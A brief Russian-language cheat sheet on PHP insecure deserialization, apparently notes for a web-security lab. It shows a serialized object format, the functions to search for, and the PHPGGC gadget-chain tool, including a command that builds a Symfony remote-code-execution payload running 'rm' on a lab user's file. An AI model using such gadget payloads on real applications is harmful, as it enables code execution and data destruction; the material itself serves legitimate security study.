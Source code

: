 # PHP

## Как выглядят сериализованные данные в PHP

```php
$user->name = "carlos";
$user->isLoggedIn = true;
```

Функции, которые ищем в коде:

```php
serialize()
unserialize()
```

Serialized:

```
O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}
```

## Tools

Есть инструменты, которые содержат в себе уже прекомпиленные гаджеты для известных библиотек. И позволяют удобно генерить свои гаджеты.

### PHP Generic Gadget Chains (PHPGGC)

[phpgcc](https://github.com/ambionics/phpggc) — подготовленные гаджеты под известные десеры

Пример использования:

```bash
./phpgcc -l
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 
```
